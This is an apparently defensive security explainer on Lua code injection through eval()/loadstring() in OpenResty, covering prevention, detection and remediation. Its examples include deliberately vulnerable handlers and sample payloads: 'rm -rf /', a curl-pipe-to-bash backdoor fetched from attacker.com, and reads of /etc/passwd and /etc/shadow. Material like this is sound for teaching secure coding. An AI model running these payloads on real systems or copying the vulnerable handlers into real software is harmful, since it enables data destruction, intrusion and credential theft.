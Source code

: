 ## Deep Analysis of Attack Tree Path: Inject Malicious Code via User Input Passed to `eval()` or `loadstring()` in OpenResty

As a cybersecurity expert working with your development team, let's delve into the "Inject Malicious Code via User Input Passed to `eval()` or `loadstring()`" attack path in your OpenResty application. This is a **critical vulnerability** that can lead to complete server compromise.

**Understanding the Core Issue:**

The crux of this vulnerability lies in the dangerous practice of directly executing arbitrary code provided by the user. OpenResty, being built on Nginx and leveraging LuaJIT, offers powerful scripting capabilities. However, functions like `eval()` and `loadstring()` within Lua are designed to execute strings as code. When these functions are fed with untrusted user input, an attacker can inject malicious Lua code that the server will then execute with its own privileges.

**Detailed Breakdown of the Attack Path:**

1. **Attacker Identifies a Vulnerable Endpoint:** The attacker first needs to find a part of your application where user-supplied data is directly or indirectly passed to `eval()` or `loadstring()`. This could be:
    * **Directly in the code:** A section of Lua code explicitly uses `eval(user_input)` or `loadstring(user_input)()`.
    * **Indirectly through configuration:**  User input might influence a configuration file or data structure that is later used in conjunction with `eval()` or `loadstring()`. This is less common but still a possibility.
    * **Through external data sources:**  If your application fetches data from an external source controlled by the attacker (e.g., a database record, a file), and that data is then used with `eval()` or `loadstring()`, it's also vulnerable.

2. **Crafting the Malicious Payload:**  Once a vulnerable endpoint is identified, the attacker crafts a malicious Lua payload. This payload can be designed to perform various actions, including:
    * **Remote Code Execution (RCE):** Execute arbitrary system commands on the server.
        * Example: `os.execute("rm -rf /")` (highly destructive!)
        * Example: `os.execute("curl attacker.com/backdoor.sh | bash")` (downloads and executes a backdoor script)
    * **Data Exfiltration:** Steal sensitive data from the server's file system or databases.
        * Example: `io.open("/etc/passwd", "r"):read("*all")`
        * Example: Accessing database credentials and dumping data.
    * **Service Disruption (DoS):** Crash the OpenResty server or consume excessive resources.
        * Example: An infinite loop or resource-intensive operation.
    * **Privilege Escalation:** If the OpenResty process runs with elevated privileges, the attacker can leverage this to gain further control.
    * **Manipulation of Application Logic:**  Alter the behavior of the application to bypass security checks, modify data, or perform unauthorized actions.

3. **Injecting the Payload:** The attacker injects the crafted payload through the identified vulnerable endpoint. This could be through:
    * **HTTP Request Parameters (GET/POST):**  Including the malicious code in URL parameters or form data.
    * **HTTP Headers:**  Injecting the code into custom or standard HTTP headers.
    * **WebSockets or other communication channels:** If the application uses other communication protocols.

4. **Execution of Malicious Code:** When the OpenResty application processes the attacker's request, the vulnerable code path is triggered. The unsanitized user input is passed to `eval()` or `loadstring()`, which interprets the input as Lua code and executes it.

5. **Achieving the Attack Goal:** The malicious code executes with the privileges of the OpenResty worker process, allowing the attacker to achieve their intended goal (e.g., gaining a shell, stealing data, disrupting the service).

**Why is this High Risk?**

* **Complete Server Compromise:**  Successful exploitation often leads to full control over the server, allowing the attacker to perform virtually any action.
* **Ease of Exploitation:**  If the vulnerability exists, it's often relatively simple to exploit with basic web request manipulation tools.
* **Difficult to Detect:**  Obfuscated or encoded malicious payloads can be challenging for simple pattern-matching security tools to detect.
* **Wide Range of Impact:**  The consequences can range from data breaches and financial loss to reputational damage and legal repercussions.

**Code Examples (Illustrative - DO NOT USE IN PRODUCTION):**

**Vulnerable Code (Direct `eval()`):**

```lua
-- In a Lua handler within OpenResty
local input = ngx.var.arg_command  -- Get user input from the 'command' parameter
eval(input) -- Directly execute the user-provided command
```

**Malicious Payload Example:**

```
-- Injected as the 'command' parameter
os.execute("whoami > /tmp/attacker_owns_you.txt")
```

**Vulnerable Code (Using `loadstring()`):**

```lua
-- In a Lua handler within OpenResty
local script_code = ngx.var.arg_script -- Get user input from the 'script' parameter
local func = loadstring(script_code)
if func then
  func() -- Execute the loaded string as a function
end
```

**Malicious Payload Example:**

```
-- Injected as the 'script' parameter
return function() os.execute("cat /etc/shadow > /tmp/shadow_copy.txt") end
```

**Impact Analysis:**

* **Confidentiality:** Sensitive data, including user credentials, application secrets, and business information, can be accessed and exfiltrated.
* **Integrity:**  Application data, configuration, and even the codebase can be modified or corrupted.
* **Availability:** The server can be crashed, rendered unresponsive, or used to launch attacks on other systems (becoming part of a botnet).

**Prevention Strategies (Crucial for Developers):**

* **The Golden Rule: NEVER use `eval()` or `loadstring()` with untrusted user input.**  This is the most important takeaway.
* **Input Validation and Sanitization:**
    * **Whitelisting:** Define a strict set of allowed characters, formats, and values. Reject anything that doesn't conform.
    * **Escaping:** If you absolutely *must* use user input in a dynamic context, carefully escape special characters to prevent code injection. However, this is complex and error-prone, making it a less desirable approach than avoiding `eval()`/`loadstring()` altogether.
    * **Data Type Enforcement:** Ensure the input is of the expected data type (e.g., number, string) and within acceptable ranges.
* **Use Safer Alternatives:**
    * **Predefined Functions/Logic:**  Design your application to use predefined functions and logic based on user choices rather than dynamically evaluating arbitrary code.
    * **Configuration Files (with Caution):** If you need dynamic behavior, use well-defined configuration files with strict syntax and validation. Avoid allowing users to directly manipulate these files.
    * **Templating Engines:** For dynamic content generation, use secure templating engines that automatically escape user input.
    * **Message Queues/Task Queues:** For asynchronous processing based on user input, use message queues with predefined message formats.
* **Principle of Least Privilege:** Run the OpenResty worker processes with the minimum necessary privileges to limit the damage an attacker can cause if they gain control.
* **Security Audits and Code Reviews:** Regularly review your codebase for instances of `eval()` and `loadstring()` and ensure proper input validation is in place.
* **Web Application Firewall (WAF):** A WAF can help detect and block malicious payloads before they reach your application. Configure it with rules to identify common code injection patterns.

**Detection and Monitoring:**

* **Logging:** Implement comprehensive logging to track user input, application behavior, and any errors or suspicious activity.
* **Intrusion Detection/Prevention Systems (IDS/IPS):**  Deploy IDS/IPS solutions to monitor network traffic for malicious patterns and potential exploitation attempts.
* **Resource Monitoring:** Monitor server resource usage for unusual spikes that could indicate malicious code execution.

**Mitigation and Remediation (If Exploitation Occurs):**

* **Isolate the Affected Server:** Immediately disconnect the compromised server from the network to prevent further damage.
* **Identify the Entry Point:** Analyze logs and system activity to determine how the attacker gained access.
* **Eradicate the Malicious Code:** Remove any injected code or backdoors.
* **Restore from Backups:** Restore the application and data from clean backups.
* **Patch the Vulnerability:**  Fix the code that allowed the injection to occur.
* **Conduct a Post-Incident Analysis:**  Learn from the incident to prevent future attacks.

**Specific Considerations for OpenResty:**

* **LuaJIT and FFI:** Be cautious when using LuaJIT's Foreign Function Interface (FFI) with user-controlled data, as it can potentially be used to execute arbitrary native code.
* **Nginx Configuration:** Ensure your Nginx configuration is secure and doesn't inadvertently expose vulnerabilities.

**Collaboration is Key:**

As a cybersecurity expert, your role is crucial in educating the development team about the risks associated with `eval()` and `loadstring()`. Work together to identify and eliminate these vulnerabilities, implement secure coding practices, and establish a strong security posture for your OpenResty application.

By understanding the mechanics of this attack path and implementing robust prevention strategies, you can significantly reduce the risk of a devastating security breach. Remember, **security is a shared responsibility**.
